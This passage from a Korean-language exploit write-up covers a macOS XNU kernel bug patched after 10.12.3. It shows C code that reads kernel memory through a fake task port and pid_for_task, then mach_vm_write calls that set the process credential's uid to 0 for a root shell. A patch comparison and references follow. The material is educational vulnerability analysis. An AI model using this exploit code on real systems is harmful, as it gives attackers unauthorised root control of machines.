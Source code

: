     data->dump_itk_kern_sself = itk_kern_sself;

    for (int i = 0; i < 256; i++) {
        *(uint64_t*) (fake_task + TASK_INFO_GAP) = (itk_kern_sself + i*4) - 0x10;
        pid_for_task(manipulated_port, (int32_t*)(data->dump_port + (i*4)));
    }
    for (int i = 0; i < 256; i++) {
        *(uint64_t*) (fake_task + TASK_INFO_GAP) = (kern_task + i*4) - 0x10;
        pid_for_task(manipulated_port, (int32_t*)(data->dump_task + (i*4)));
    }
    return data;
}
{% endhighlight %}

fake port와 fake task의 모든 작업이 끝나고나서, 우리는 mach_vm_read,write를 통해 커널메모리에 원하는대로 읽기 및 쓰기가 가능하여 ucred 구조체의 uid를 root로 조작해 관리자권한을 획득할 수 있다.

마지막으로 다음과 같은 코드로 uid를 0으로 수정해주는 작업을 한다.

{% highlight c %}
mach_vm_read_overwrite(kernel_port, (current_process + UCRED_GAP_IN_PROCESS), (size_t)8, (mach_vm_offset_t)(&cred), &read_bytes); // AAR in Kernel
vm_offset_t root_uid = 0;
mach_msg_type_number_t write_bytes = 8;
mach_vm_write(kernel_port, (cred + CR_RUID_GAP_IN_UCRED), &root_uid,(mach_msg_type_number_t)write_bytes); // AAW in Kernel
{% endhighlight %}

위에서 언급했듯이, cred는 현재프로세스에서 0xe8만큼 떨어진곳에 존재하기때문에 주소를 알아내고, cred+0x18위치에 8바이트만큼 0으로 덮으면 위에 봤던 스크린샷과 같이 관리자권한의 쉘을 획득 할 수있다.



#### Patch

해당 버그는 10.12.3 이후부터 패치가 되었다. 어떻게 패치가 되었는지 10.12.4의 XNU 소스코드와 10.12.1의 소스코드를 비교해 볼 것이다.



<img src="{{ site.url }}/images/2017-05-16/1.png" style="display: block; margin: auto;">



좌측이 패치전, 우측이 패치후 모습이다. 보면 알겠지만 우리가 recipe 데이터를 조작 할 수 있었고, recipe_size또한 원하는대로 데이터를 넣을 수 있어서 오버플로우가 발생했다. 하지만 copyin을 했을때 recipe 구조체 멤버인 recipe_size만큼 복사하지 않아 원하는만큼의 데이터를 복사 할 수 없어 오버플로우가 발생하지 않는다.

### 참고
- https://bugs.chromium.org/p/project-zero/issues/detail?id=1004
- https://github.com/kpwn/yalu102
- https://jaq.alibaba.com/community/art/show?articleid=781


